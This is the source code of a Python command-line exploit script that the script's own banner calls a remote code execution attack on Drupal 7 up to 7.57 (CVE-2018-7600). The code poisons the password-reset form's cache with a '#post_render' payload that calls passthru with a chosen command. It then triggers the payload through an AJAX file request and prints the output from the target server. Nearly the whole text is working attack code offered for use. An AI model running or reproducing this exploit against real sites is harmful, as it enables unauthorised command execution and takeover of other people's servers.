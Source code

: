 ```
                    ''')
  parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
  parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
  parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
  parser.add_argument("-p", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
  args = parser.parse_args()
  return args

def pwn_target(target, function, command, proxy):
  requests.packages.urllib3.disable_warnings()
  proxies = {'http': proxy, 'https': proxy}
  print('[*] Poisoning a form and including it in cache.')
  get_params = {'q':'user/password', 'name[#post_render][]':function, 'name[#type]':'markup', 'name[#markup]': command}
  post_params = {'form_id':'user_pass', '_triggering_element_name':'name', '_triggering_element_value':'', 'opz':'E-mail new Password'}
  r = requests.post(target, params=get_params, data=post_params, verify=False, proxies=proxies)
  soup = BeautifulSoup(r.text, "html.parser")
  try:
    form = soup.find('form', {'id': 'user-pass'})
    form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
    if form_build_id:
        print('[*] Poisoned form ID: ' + form_build_id)
        print('[*] Triggering exploit to execute: ' + command)
        get_params = {'q':'file/ajax/name/#value/' + form_build_id}
        post_params = {'form_build_id':form_build_id}
        r = requests.post(target, params=get_params, data=post_params, verify=False, proxies=proxies)
        parsed_result = r.text.split('[{"command":"settings"')[0]
        print(parsed_result)
  except:
    print("ERROR: Something went wrong.")
    raise

def main():
  print ()
  print ('=============================================================================')
  print ('|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |')
  print ('|                              by pimps                                     |')
  print ('=============================================================================\n')

  args = get_args() # get the cl args
  pwn_target(args.target.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


if __name__ == '__main__':
  main()

```
